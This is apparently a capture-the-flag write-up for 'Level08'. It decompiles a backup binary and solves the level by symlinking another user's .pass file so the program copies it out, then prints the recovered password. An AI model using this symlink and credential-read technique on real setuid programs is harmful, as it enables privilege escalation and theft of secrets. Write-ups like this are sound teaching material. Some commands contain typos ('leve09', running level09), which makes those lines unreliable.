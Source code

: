 # Level08

## Setup

We find a binary file at the root of the user **`level08`** named *`./level08`*.

```bash
scp -r -P 4242 level08@<vm_ip>:/home/users/level08/level08 .
```

### Hex-Rays

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).

## Source
```C
FILE *stream;
...
stream = fopen(argv[1], "r");
...
strcpy(dest, "./backups/");
strncat(dest, argv[1], 99 - strlen(dest));
...
fd = open(dest, 193, 432LL);
...
while ( 1 ) {
	buf = fgetc(stream);
	...
	write(fd, &buf, 1uLL);
}
...
```

The program opens argv[1] and then writes its content in `./backups/{argv[1]}` \
If we want to open `/home/users/level09/.pass` the program tries to write it to `./backups//home/users/level09/.pass`

## Solution

The `//` is an issue, to circumvent it, we can create a symbolic link of `/home/users/level09/.pass` in our Home -> \
```bash
> chmod 777 . #(to have the write rights in our Home) \
> ln -sf /home/users/leve09/.pass pass \
> ./level09 pass \
> cat ./backups/pass \
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```